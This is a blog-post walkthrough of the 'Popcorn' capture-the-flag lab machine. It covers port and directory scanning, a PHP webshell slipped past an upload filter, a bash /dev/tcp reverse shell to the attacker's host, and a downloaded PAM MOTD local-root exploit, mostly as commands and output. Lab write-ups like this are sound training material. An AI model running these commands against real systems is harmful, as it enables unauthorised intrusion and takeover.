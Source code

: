 ```yaml
---
layout: post
title:  "Popcorn"
date:   2023-11-02 22:55:30 -0400
categories: jekyll update
---
```


Popcorn

<img
  src="/assets/popcorrn.png"
  alt="featured image"
  class="featured-image-post"
/>

## nmap
```
└─# nmap -p- 10.10.10.6     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-02 18:53 EDT
Nmap scan report for 10.10.10.6
Host is up (0.052s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 36.97 seconds
```

```
└─# nmap -p 22,80 -sC -sV 10.10.10.6           
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-02 18:56 EDT
Nmap scan report for 10.10.10.6
Host is up (0.048s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3ec81b15211550ec6e63bcc56b807b38 (DSA)
|_  2048 aa1f7921b842f48a38bdb805ef1a074d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.11 seconds
```

## gobuster
```
└─# gobuster dir -u http://10.10.10.6 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --timeout 20s 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.6
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 20s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 177]
/test                 (Status: 200) [Size: 47016]
/torrent              (Status: 301) [Size: 310] [--> http://10.10.10.6/torrent/]
/rename               (Status: 301) [Size: 309] [--> http://10.10.10.6/rename/]
Progress: 28643 / 220561 (12.99%)[ERROR] Get "http://10.10.10.6/AbleFtp": context
```

### 10.10.10.6:80
<img
  src="/assets/popcorn/Pasted image 20231102185842.png"
  alt="featured image"
  class="featured-image-post"
/>

### 10.10.10.6/test
![[Pasted image 20231102214854.png]]

### 10.10.10.6/rename
![[Pasted image 20231102215443.png]]

### 10.10.10.6/torrent
![[Pasted image 20231102215613.png]]

![[Pasted image 20231102215710.png]]

After registering an account, I browsed around and found an upload page. I downloaded a legit torrent file and uploaded it.
![[Pasted image 20231102222727.png]]
![[Pasted image 20231102222630.png]]

After uploading, there is a button to upload a screenshot.
![[Pasted image 20231102222830.png]]
![[Pasted image 20231102222908.png]]

I chose a random screenshot, this kali  logo and uploaded it.
![[Pasted image 20231102224231.png]]

I captured the request in Burp and changed the extension to php and the content to a php webshell. At first I had to play around with Repeater to see which filters were in place, but this way submitted without errors.
![[Pasted image 20231102224207.png]]

I refreshed and there is the screenshot.
![[Pasted image 20231102224533.png]]

After some guessing I found the image at `/torrent/upload`
![[Pasted image 20231102225457.png]]
![[Pasted image 20231102225543.png]]

I test out execution with a simple`id` command with curl and its successful:
```
┌──(root💀kali)-[/home/spacemoth/machines/popcorn]
└─# curl http://10.10.10.6/torrent/upload/2becb0265247e56217dcac4f5ff7308699ee0d3e.php?cmd=id      
uid=33(www-data) gid=33(www-data) groups=33(www-data)
Warning: Binary output can mess up your terminal. Use "--output -" to tell 
Warning: curl to output it to your terminal anyway, or consider "--output 
Warning: <FILE>" to save to a file.
```

## Shell

I will start netcat and use this line to get a reverse shell:
```
curl http://10.10.10.6/torrent/upload/2becb0265247e56217dcac4f5ff7308699ee0d3e.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.24/443 0>&1'"
```

```
└─$ nc -lnvp 443 
listening on [any] 443 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.6] 36235
bash: no job control in this shell                                                                                                               
www-data@popcorn:/var/www/torrent/upload$
```

I got the shell and now I will upgrade:
```
python -c 'import pty;pty.spawn("bash")'
```

Obtain user flag:
```
www-data@popcorn:/home$ ls 
ls
george
www-data@popcorn:/home$ cat george
cat george
cat: george: Is a directory
www-data@popcorn:/home$ cd george
cd george
www-data@popcorn:/home/george$ ls
ls
torrenthoster.zip  user.txt
www-data@popcorn:/home/george$ cat user.txt                                      cat user.txt                                                            
3b0************************
```

## PrivEsc

I found `motd.legal-displayed` and knowing this file can lead to code execution I found this exploit after some googling, https://www.exploit-db.com/exploits/14339. I downloaded the exploit and hosted it on my machine:
```
└─$ python2.7 -m SimpleHTTPServer 1337                                  
Serving HTTP on 0.0.0.0 port 1337 ...
```

On victim machine I used `wget` to download it:
```
www-data@popcorn:/tmp$ wget http://10.10.14.24:1337/14339.sh 
wget http://10.10.14.24:1337/14339.sh 
--2023-11-03 05:15:40--  http://10.10.14.24:1337/14339.sh
Connecting to 10.10.14.24:1337... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3042 (3.0K) [text/x-sh]
Saving to: `14339.sh'

100%[======================================>] 3,042       --.-K/s   in 0s      

2023-11-03 05:15:40 (124 MB/s) - `14339.sh' saved [3042/3042]
```

I then chmod the file and ran it, which lead to root:
```
www-data@popcorn:/tmp$ chmod +x 14339.sh
chmod +x 14339.sh
www-data@popcorn:/tmp$ ./14339.sh
./14339.sh
[*] Ubuntu PAM MOTD local root
[*] SSH key set up
[*] spawn ssh
[+] owned: /etc/passwd
[*] spawn ssh
[+] owned: /etc/shadow
[*] SSH key removed
[+] Success! Use password toor to get root
Password: toor

root@popcorn:/tmp# whoami
whoami
root
```

##### Root Flag
```
root@popcorn:/# cd root
cd root
root@popcorn:~# ls
ls
root.txt
root@popcorn:~# cat root.txt
cat root.txt
850*****************************
```
